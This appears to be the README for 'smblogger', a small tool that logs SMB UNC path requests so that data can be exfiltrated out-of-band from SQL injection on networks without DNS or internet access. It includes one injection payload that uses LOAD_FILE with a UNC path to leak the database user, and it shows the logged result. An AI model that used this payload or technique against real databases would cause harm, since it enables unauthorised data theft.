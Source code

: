 # smblogger
Log requests of requested UNC paths (for OOB exploits).

#### What do I need it for?
This is useful in situations where you want to exfiltrate data via SMB. For example, you found SQL injection but you don't have a domain or can't use DNS. This is common inside private networks without internet access.

For example, let's say you injected the following query:
`SELECT * FROM test WHERE 1=1 OR LOAD_FILE(CONCAT("\\\\127.0.0.1\\",USER()))`

The script would output:
`[-] SMB2_TREE_CONNECT root@localhost`